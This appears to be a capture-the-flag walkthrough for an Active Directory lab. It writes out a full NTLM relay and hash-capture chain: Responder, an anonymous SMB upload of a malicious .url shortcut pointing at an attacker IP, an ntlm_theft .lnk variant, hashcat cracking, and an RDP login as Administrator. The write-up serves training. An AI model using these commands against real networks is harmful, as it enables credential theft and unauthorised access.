




# Relay All the Way

## Solution
- Hit "Start Machine".
- What is the name of the AD authentication protocol that makes use of tickets?
<br/>
It is written in the description.
- What is the name of the AD authentication protocol that makes use of the NTLM hash?
<br/>
It is written in the description.
- What is the name of the tool that can intercept these authentication challenges?
<br/>
It is written in the description.
- What is the password that McGreedy set for the Administrator account?
<br/>
Run Responder.
```bash
sudo responder -I <INTERFACE>
```
Connect to SMB shared folder ElfShare.
```bash
smbclient -N  \\\\<IP>\\ElfShare
```
Get "greedykeys.txt" file.
```bash
get greedykeys.txt
```



Save the following content into a file called "clickme.url".
```bash
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\<ATTACKER IP>\icon
IconIndex=1
```
Upload malicious url file.
```bash
put clickme.url
```
Wait for a couple of minutes and retrieve the NTLMv2 hash from Responder output.



Copy the hash in a file calleed "hash.txt" and run hashcat to crack it. Use "greedykeys.txt" as wordlist.
```bash
hashcat -m 5600 hash.txt greedykeys.txt -O
hashcat -m 5600 hash.txt --show
```



A file lnk can be used as well instead of an url file. Generate the lnk file with the tool ntlm_theft (https://github.com/Greenwolf/ntlm_theft) and then upload it in the ElfShare SMB shared folder.
```bash
python3 ntlm_theft.py -g lnk -s <ATTACKER IP> -f clickme
```

- What is the value of the flag that is placed on the Administrator’s desktop?
<br/>
Connect via RDP to get the flag on the Administrator's desktop.
```bash
xfreerdp /u:administrator /p:<PASSWORD> /v:<IP>
```


